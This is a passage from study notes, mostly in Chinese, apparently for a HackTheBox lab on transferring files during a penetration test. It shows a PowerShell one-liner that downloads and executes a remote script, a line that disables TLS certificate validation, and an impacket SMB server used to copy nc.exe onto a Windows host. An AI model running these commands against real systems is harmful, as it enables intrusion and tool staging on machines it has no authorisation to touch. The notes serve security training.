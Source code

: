 SSL证书报错。
```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException

PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```






### SMB Downloads

#### Create the SMB Server

**这个方式也可以用于上传。注意连接到smbserver的路径别漏了 `/share`。**

```shell-session
TimeLess613@htb[/htb]$ sudo impacket-smbserver -smb2support share /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Copy a File from the SMB Server

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe

        1 file(s) copied.
```

> **New versions of Windows block unauthenticated guest access, as we can see in the following command:**

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```
